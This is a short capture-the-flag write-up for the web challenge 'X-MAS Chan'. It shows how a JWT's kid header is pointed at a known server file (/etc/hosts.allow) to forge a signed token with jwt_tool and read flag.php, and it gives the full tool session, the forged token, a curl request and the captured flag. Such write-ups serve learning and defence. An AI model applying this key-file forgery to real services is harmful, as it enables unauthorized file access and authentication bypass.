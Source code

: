 # X-MAS Chan (Web 470, 26 solves)

Basically the whole site is bait even though tinyboard is long dead. The only addition we can find is the suspicious get\_banner.php, which returns a signed JWT token with the banner path in it. Presumably if we can change the path the server will fetch the file for us.

We use JWT kid (key id) field abuse. The key is read from disk so we can use a known file to forge signature with [jwt\_tool](https://github.com/ticarpi/jwt_tool).

```
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IlwvdG1wXC9qd3Qua2V5In0.eyJiYW5uZXIiOiJiYW5uZXJcLzExLmdpZiJ9.oF8DELrjNtD05_4qOyI3wJqHUH_iM2xFvRRAU_tKGPU -k /etc/hosts.allow -T -S hs256
[...]
Current value of kid is: /tmp/jwt.key
Please enter new value and hit ENTER
> /etc/hosts.allow
[...]
Current value of banner is: banner/11.gif
Please enter new value and hit ENTER
> flag.php
[...]
Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii9ldGMvaG9zdHMuYWxsb3cifQ.eyJiYW5uZXIiOiJmbGFnLnBocCJ9.TKlW29olIFPhFJyDM-UBVUVMYQtcs6BU0nwY1XXDAUA

> curl -H "Cookie: banner=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii9ldGMvaG9zdHMuYWxsb3cifQ.eyJiYW5uZXIiOiJmbGFnLnBocCJ9.TKlW29olIFPhFJyDM-UBVUVMYQtcs6BU0nwY1XXDAUA" http://challs.xmas.htsp.ro:3010/getbanner.php
```

Flag: `X-MAS{n3v3r_trust_y0ur_us3rs_k1ds-b72dcf5a49498400}`

We can fetch the key file now if we want: 6f617a19b176e3a79fe3f4853b07e39d164449d1b663b4535d1e24357330a150
